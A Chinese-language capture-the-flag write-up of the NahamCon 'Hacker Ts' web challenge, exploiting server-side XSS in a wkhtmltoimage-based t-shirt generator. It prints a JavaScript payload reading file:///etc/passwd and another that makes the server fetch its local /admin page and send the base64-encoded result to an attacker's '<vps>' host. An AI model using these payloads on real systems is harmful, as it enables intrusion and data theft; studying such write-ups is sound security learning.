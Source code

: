 # Hacker Ts

- Server-Side-Xss

>  We all love our hacker t-shirts. Make your own custom ones.

功能点是用户输入文字，然后将文字生成图片"印"到T恤上。有"/admin"页面，但是无法访问

![image-20220502132647343](https://picgo-1305609125.cos.ap-nanjing.myqcloud.com/nahamconCTF%2Fimage-20220502132647343.png)

此时的URL：http:// challenge.nahamcon.com:31762/exploit?text=test&color=#24d600，产生的效果类似于生成了一个pdf，然后与衣服的图片叠加起来了

![image-20220502132828575](https://picgo-1305609125.cos.ap-nanjing.myqcloud.com/nahamconCTF%2Fimage-20220502132828575.png)

对于text字段可以尝试输入html，看其变化  **\<script>document.write(123)\</script>**，发现生成html页面，可以执行js，也就是说存在一个服务端xss

- Server Side XSS -> [Server Side XSS (Dynamic PDF) - HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)

![image-20220502151135923](https://picgo-1305609125.cos.ap-nanjing.myqcloud.com/nahamconCTF%2Fimage-20220502151135923.png)

通过搜索了pdf的相关利用方式，基本上就是本地文件读取和ssrf，所以可以尝试利用本地文件读取

```
<script>
    x=new XMLHttpRequest;
    x.onload=function(){  
    document.write(this.responseText)
};
    x.open("GET","file:///etc/passwd");
    x.send();
</script>
```

当执行时，爆了错误，看到使用了 wkhtmltoimage，佐证了上面的猜测，可能报错的原因查了一下，wkhtmltopdf,在0.12.6版本默认禁止读取本地文件

![image-20220502152458573](https://picgo-1305609125.cos.ap-nanjing.myqcloud.com/nahamconCTF%2Fimage-20220502152458573.png)切换攻击方式，我们可以利用 **XMLHttpRequest** 去让服务器访问/admin，然后将访问的内容返回到hacker的vps上

将payload进行urlencode

```
<script>
x=new XMLHttpRequest();
x.open("GET","http://localhost:5000/admin");
x.onload=function(){var i = new Image(); i.src = "https://<vps>/?c=" + btoa(this.responseText)};
x.send();
</script>
```

关于XMLHttpRequest() [XMLHttpRequestEventTarget.onload | MDN (mozilla.org)](https://developer.mozilla.org/zh-CN/docs/conflicting/Web/API/XMLHttpRequest/load_event)

![image-20220502153314095](https://picgo-1305609125.cos.ap-nanjing.myqcloud.com/nahamconCTF%2Fimage-20220502153314095.png)
